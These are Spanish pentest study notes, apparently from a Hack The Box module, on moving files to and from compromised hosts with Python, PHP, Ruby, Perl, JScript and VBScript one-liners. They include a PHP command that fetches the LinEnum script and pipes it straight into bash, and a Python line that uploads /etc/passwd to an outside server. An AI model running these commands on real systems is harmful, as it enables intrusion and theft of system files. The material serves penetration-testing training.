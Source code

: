 Programas como Python, PHP, Perl y Ruby son programas comunes instalados tanto en Linux como en Windows.
Podemos aprovecharnos de estos programas para transmitir código entre máquinas. 

# 1. Python

A partir de Python2 podemos interactuar con servidores web.
## A. Descargas de archivos con Python2
Utilizando el comando:
```shell-session
Polika4RM@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

El archivo se guarda en el directorio de ejecución de dicho script.

## B. Descargas de archivos con Python3

```shell-session
Polika4RM@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

# 2. PHP
PHP se utiliza en el 77% de los sitios con backend, pues, es muy común encontrárnoslo.

## A. Método de descarga file_get_contents()
Descarga el contenido de una URL y lo guarda en un archivo:
```
php -r '$f = file_get_contents("URL"); file_put_contents("LinEnum.sh",$f);'`
```
## B. Método de descarga fopen()

```shell-session
Polika4RM@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
Se asemeja a un wget en PHP.


## C. Descarga PHP con pipe a BASH
Este método descarga el script remoto y lo ejecuta directamente con Bash sin guardarlo en un archivo local.  
Es un fileless execution (ejecución sin archivos), útil cuando no puedes o no quieres escribir en el disco:
```
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

# 3. RUBY y PERL
Tanto Ruby como Perl permiten transferir archivos con one-liners, igual que hicimos con Python y PHP Ambos descargan el archivo remoto y lo guardan en disco.
## A. Ruby
```
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("URL")))'
```
- Usa la librería net/http
- Descarga el archivo desde la URL.
- Lo guarda localmente como LinEnum.sh.
## B. Perl
```
perl -e 'use LWP::Simple; getstore("URL", "LinEnum.sh");'
```
- Descarga el archivo desde la URL. 
- Lo guarda como `LinEnum.sh`.

# 4. JavaScript
Guardamos el código wget.js con el siguiente contenido:
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); WinHttpReq.Open("GET", WScript.Arguments(0), false); WinHttpReq.Send(); BinStream = new ActiveXObject("ADODB.Stream"); BinStream.Type = 1; BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody); BinStream.SaveToFile(WScript.Arguments(1));`
```

Lo ejecutamos desde CMD o Powershell con:
```
cscript.exe /nologo wget.js <URL> <archivo_destino>`
```
- WinHttpRequest → hace la petición HTTP al archivo.
- ADODB.Stream → crea un flujo binario para guardar el archivo.
- SaveToFile → guarda el contenido descargado en el disco.
- Permite descargar archivos en Windows sin wget o curl.

# 5. VBScript
De la misma forma que con JavaScript, guardamos en wget.vbs el siguiente contenido:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
Lo ejecutamos desde CMD o Powershell con:
```
cscript.exe /nologo wget.vbs <URL> <archivo_destino>
```

- Microsoft.XMLHTTP → realiza la petición HTTP al archivo.
- Adodb.Stream → crea un flujo binario para guardar los datos.
- .savetofile → guarda el archivo en disco.
- Permite descargar archivos en Windows sin wget o curl.

# 6. Subida de archivos con Pyhton3
En primer lugar, iniciamos un servidor de python3 con:
```shell-session
Polika4RM@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
- Permite subir archivos vía HTTP en la ruta /upload.
- Escucha en http\://0.0.0.0:8000/.

Con el siguiente oneliner, subo el archivo al servidor:
```
python3 -c 'import requests; requests.post("http://192.168.49.128:8000/upload", files={"files": open("/etc/passwd","rb")})'
```

Solo se pueden compartir archivos, no carpetas.

